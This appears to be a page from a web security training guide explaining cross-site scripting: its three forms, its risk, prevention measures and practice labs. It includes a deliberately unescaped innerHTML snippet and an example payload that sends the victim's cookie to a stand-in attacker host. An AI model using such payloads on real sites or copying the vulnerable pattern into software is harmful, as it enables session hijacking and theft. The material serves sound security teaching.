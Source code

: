 ```yaml
---
title: A7 Cross-site scripting (XSS)
sidebar_position: 8
---
```


# A7 Cross-site scripting (XSS)

## Definition

XSS flaws occur whenever an application includes untrusted data in a new web page without
proper validation or escaping, or updates an existing web page with user-supplied data using a
browser API that can create HTML or JavaScript. XSS allows attackers to execute scripts in the
victim’s browser which can hijack user sessions, deface web sites, or redirect the user to
malicious sites.

## Risk Factor Summary

- Score: 6.0
- Attack Vectors Exploitability: 3
- Security Weakness Prevalence: 3
- Security Weakness Detectability: 3
- Impact Technical: 2

## Context

<iframe
  width='100%'
  height='450'
  src='https://www.youtube.com/embed/IuzU4y-UjLw'
></iframe>

Automated tools can detect and
exploit all three forms of XSS, and
there are freely available exploitation
frameworks.

XSS is the second most prevalent issue in the
OWASP Top 10, and is found in around two-thirds of
all applications.

Automated tools can find some XSS problems
automatically, particularly in mature technologies
such as PHP, J2EE / JSP, and ASP.NET.

The impact of XSS is moderate for
reflected and DOM XSS, and severe
for stored XSS, with remote code
execution on the victim's browser,
such as stealing credentials,
sessions, or delivering malware to the
victim.

## Is the Application Vulnerable?

There are three forms of XSS, usually targeting users' browsers:

- **Reflected XSS:** The application or API includes unvalidated and
  unescaped user input as part of HTML output. A successful
  attack can allow the attacker to execute arbitrary HTML and
  JavaScript in the victim’s browser. Typically the user will need to
  interact with some malicious link that points to an attackercontrolled page, such as malicious watering hole websites,
  advertisements, or similar.

- **Stored XSS:** The application or API stores unsanitized user
  input that is viewed at a later time by another user or an
  administrator. Stored XSS is often considered a high or critical
  risk.

- **DOM XSS:** JavaScript frameworks, single-page applications, and
  APIs that dynamically include attacker-controllable data to a
  page are vulnerable to DOM XSS. Ideally, the application would
  not send attacker-controllable data to unsafe JavaScript APIs.

Typical XSS attacks include session stealing, account takeover,
MFA bypass, DOM node replacement or defacement (such as
trojan login panels), attacks against the user's browser such as
malicious software downloads, key logging, and other client-side
attacks.

## Conceptual Attacks

### Scenario #1:

The application uses untrusted data in the
construction of the following HTML snippet without validation or
escaping:

```js
const urlParams = new URLSearchParams(window.location.search)

page.innerHTML += `<input name='creditcard' type='TEXT'
value='${urlParams.get('CC')}'>`
```

The attacker modifies the ‘CC’ parameter in the browser to:

```
'><script>document.location=
'http://www.attacker.com/cgi-bin/cookie.cgi?
foo='+document.cookie</script>'
```

This attack causes the victim’s session ID to be sent to the
attacker’s website, allowing the attacker to hijack the user’s
current session.

Note: Attackers can use XSS to defeat any automated CrossSite Request Forgery (CSRF) defense the application might
employ.

## Example Attack Scenarios

### Please review

- The [Explained attack: Cross-site scripting (XSS) in this guide](/attacks_explained/xss)
  - [Reflected XSS](/attacks_explained/xss#reflected-xss)
  - [Stored XSS](/attacks_explained/xss#stored-xss)
  - [DOM XSS](/attacks_explained/xss#dom-xss)
- The [Explained attack: Cross Site Request Forgery (CSRF) in this guide](/attacks_explained/csrf)
- The Explained attack: Server-Side Request Forgery (SSRF) in this guide

## How to Prevent

Preventing XSS requires separation of untrusted data from
active browser content. This can be achieved by:

- Using frameworks that automatically escape XSS by design,
  such as the latest Ruby on Rails, React JS. Learn the
  limitations of each framework's XSS protection and
  appropriately handle the use cases which are not covered.
- Escaping untrusted HTTP request data based on the context in
  the HTML output (body, attribute, JavaScript, CSS, or URL) will
  resolve Reflected and Stored XSS vulnerabilities. The OWASP
  [Cheat Sheet 'XSS Prevention'](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) has details on the required data
  escaping techniques.
- Applying context-sensitive encoding when modifying the
  browser document on the client side acts against DOM XSS.
  When this cannot be avoided, similar context sensitive
  escaping techniques can be applied to browser APIs as
  described in the [OWASP Cheat Sheet 'DOM based XSS
  Prevention'](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html).
- Enabling a [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) is a defense-in-depth
  mitigating control against XSS. It is effective if no other
  vulnerabilities exist that would allow placing malicious code via
  local file includes (e.g. path traversal overwrites or vulnerable
  libraries from permitted content delivery networks).

## Hacking Playground

- [🐐 NodeGoat | A7 Cross-site scripting (XSS)](https://nodegoat.herokuapp.com/tutorial/a7)
- [🧃 Pwning OWASP Juice Shop | A7 Cross-site scripting (XSS)](https://pwning.owasp-juice.shop/part2/xss.html)
- [Kontra | Server Side Request Forgery](https://application.security/free-application-security-training/server-side-request-forgery-in-capital-one)
- [Kontra | TikTok Cross Site Scripting Vulnerability](https://application.security/free-application-security-training/cross-site-scripting-vulnerability-in-tiktok)
- [Kontra | Reflected XSS](https://application.security/free-application-security-training/owasp-top-10-reflected-cross-site-scripting)
- [Kontra | Stored Cross Site Scripting](https://application.security/free-application-security-training/owasp-top-10-stored-cross-site-scripting)

## References

### OWASP

- [OWASP Cheat Sheet: XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [OWASP Cheat Sheet: DOM based XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)
- [OWASP Cheat Sheet: XSS Filter Evasion](https://owasp.org/www-community//xss-filter-evasion-cheatsheet)

### CWEs

- [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
